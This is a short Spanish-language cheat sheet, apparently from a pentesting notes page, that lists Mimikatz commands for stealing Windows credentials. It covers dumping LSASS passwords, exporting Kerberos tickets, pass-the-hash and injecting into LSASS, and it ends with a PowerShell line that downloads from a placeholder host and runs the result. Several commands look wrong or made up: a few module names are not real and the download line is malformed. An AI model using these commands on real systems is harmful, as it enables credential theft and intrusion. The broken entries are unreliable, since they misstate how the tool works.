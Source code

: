 

se utiliza para realizar operaciones relacionadas con la extracción y manipulación de credenciales en sistemas Windows.


| Tarea                                          | Comando                                                                                      |                     |
| ---------------------------------------------- | -------------------------------------------------------------------------------------------- | ------------------- |
| Extracción de Credenciales en Texto Plano      | `mimikatz.exe "sekurlsa::logonpasswords"`                                                    |                     |
| Extracción de Credenciales de LSASS            | `mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonpasswords"`                     |                     |
| Extracción de Credenciales de Kerberos         | `mimikatz.exe "sekurlsa::tickets /export"`                                                   |                     |
| Manipulación de Tokens                         | `mimikatz.exe "token::elevate"`                                                              |                     |
| Dump de Credenciales de Procesos Específicos   | `mimikatz.exe "sekurlsa::process /name:lsass.exe" "sekurlsa::logonpasswords"`                |                     |
| Inyectar Credenciales en otro Proceso          | `mimikatz.exe "sekurlsa::pth /user:username /domain:domain /ntlm:NTLMhash /run:command"`     |                     |
| Mostrar Información sobre Credenciales en Hash | `mimikatz.exe "sekurlsa::tickets /export" "sekurlsa::crypto"`                                |                     |
| Inyectar Mimikatz en LSASS                     | `mimikatz.exe "misc::memssp"`                                                                |                     |
| Escuchar Contraseñas de Forma Continua         | `mimikatz.exe "sekurlsa::eventlog /unkeyed"`                                                 |                     |
| Descargar y Ejecutar Mimikatz Remotamente      | `powershell -c "(New-Object Net.WebClient).DownloadString('http://example.com/mimikatz.exe') | Invoke-Expression"` |
